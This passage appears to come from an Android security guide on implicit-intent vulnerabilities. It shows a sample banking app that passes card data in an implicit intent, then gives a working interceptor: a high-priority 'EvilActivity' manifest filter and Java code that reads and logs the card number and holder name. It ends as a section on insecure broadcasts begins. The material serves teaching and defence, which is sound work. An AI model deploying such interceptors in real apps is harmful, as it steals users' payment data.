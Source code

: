 If an app uses implicit intents with certain private data to launch activities you can start to handle the same actions to intercept the private data. For example, suppose a banking app uses an implicit intent with card data to launch an activity:

```xml
<activity android:name=".AddCardActivity">
    <intent-filter>
        <action android:name="com.victim.ADD_CARD_ACTION" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

```java
Intent intent = new Intent("com.victim.ADD_CARD_ACTION");
intent.putExtra("credit_card_number", num.getText().toString());
intent.putExtra("holder_name", name.getText().toString());
// ...
startActivity(intent);
```

You can intercept card data as follows:

- `AndroidManifest.xml`

    ```xml
    <activity android:name=".EvilActivity">
        <intent-filter android:priority="999">
            <action android:name="com.victim.ADD_CARD_ACTION" />
            <category android:name="android.intent.category.DEFAULT" />
        </intent-filter>
    </activity>
    ```

- `EvilActivity.java`

    ```java
    Log.d("evil", "Number: " + getIntent().getStringExtra("credit_card_number"));
    Log.d("evil", "Holder: " + getIntent().getStringExtra("holder_name"));
    // ...
    ```

## Insecure broadcasts

If an app uses implicit intents to deliver a broadcast you can register a broadcast receiver with the same action and intercept a user's broadcast from a different app. For example, suppose a messaging service requests new messages from the server and passes them to a broadcast receiver that is responsible for displaying them on the user's screen:

```java
Intent intent = new Intent("com.victim.messenger.IN_APP_MESSAGE");
intent.putExtra("from", id);
intent.putExtra("text", text);
sendBroadcast(intent);
```
